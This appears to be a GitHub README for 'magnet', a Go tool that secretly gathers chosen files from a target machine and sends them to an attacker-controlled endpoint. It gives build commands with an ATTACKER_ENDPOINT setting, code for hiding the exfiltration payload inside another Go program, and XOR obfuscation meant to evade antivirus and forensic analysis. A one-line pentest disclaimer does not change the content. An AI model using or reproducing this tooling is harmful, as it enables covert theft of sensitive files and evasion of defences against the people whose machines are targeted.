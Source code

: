 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

**Program execution on target will stealthy provide you the files you ask for.**

You have 2 possibilities:
* [Hide exfiltration in your program](#-inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#-standalone)

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* The ***remote endpoint***, where juicy files are uploaded
* The ***Juicy files***, list of files you want to grab
* The ***target os***, to fit the target (between: `windows`, `darwin`, `linux`)
* The ***method*** uses for exfiltration (`http`, `tcp`)
```shell
export KEY=[YOUR_KEY]
export FILES=[FILENAME]
export ENDPOINT=[ATTACKER_ENDPOINT]
export METHOD=[EXFILTRATION_METHOD]
```

### 🥷 Inject `magnet` in your Go program

1. Add `magnet` import and declare variables outside your `main()` function:
```golang
import "github.com/ariary/magnet/pkg/magnet"

var FileList,Key,Endpoint,Method string
```

2. Add magnet payload in the `main()`:
```golang
	sender := magnet.InitMagnetSender(Method)
	magnet.Magnet(sender, FileList, Endpoint, Key, debug)
```

3. Finally, modify the build command by adding `-ldflags "-X 'main.FileList=$FILES' -X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT' -X 'main.Method=$METHOD'"` and `CGO_ENABLED=0`

see [declare `magnet`environment variables](#declare-magnet-envar)

### ⚡ Standalone



To build `magnet` binary in one step:
```shell
# ensure lobfuscator is in your PATH
./build.sh $FILES $ENDPOINT $KEY $METHOD
```

See [`lobfuscator`](#build-lobfuscator) and [full example](https://github.com/ariary/magnet/blob/main/examples/EXAMPLES.md)


### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

The same thing is made for the remote endpoints, to make the forensic analysis harder.

`lobfuscator` is the simple tool to perform the XOR encryption/decryption.

An exemple to build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
# decrypt: cat obfuscated.txt | lobfuscator -d $KEY
```

#### Build `lobfuscator`
```shell
make build.lobfuscator
```

#### Declare `magnet` envar

Define `FILES` and `ENDPOINT` envar:
```shell
export FILES=$(cat [FILE] | lobfuscator $KEY)
export ENDPOINT=$(echo "[ENDPOINT]" | lobfuscator $KEY)
```


#### Go further

You can also use `lobfuscator` without providing a key to encrypt (will generate a random key of the size of the input):
```shell
# Encrypt with random key
cat samples/linux_juicy_files.txt | ./lobfuscator > encrypted.txt 2>tmp.txt && cat tmp.txt | cut -d ":" -f 2- > keys.txt && rm tmp.txt
# Decrypt using file containing keys
cat encrypted.txt| ./lobfuscator -d -kf keys.txt
``` 
## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario (for standalone use)
* To enhance the binary obfuscation use [`garble`](https://github.com/burrowers/garble) to compile `magnet` instead of `go`(adapt `build.sh` consequently)

## To do

* Handle directories
* Use other protocols to send files (ICMP, DNS, SMTP, etc...)
* `magnetgentool` is on the making, it will be used with `//go:generate` comment to stealthy inject magnet code.
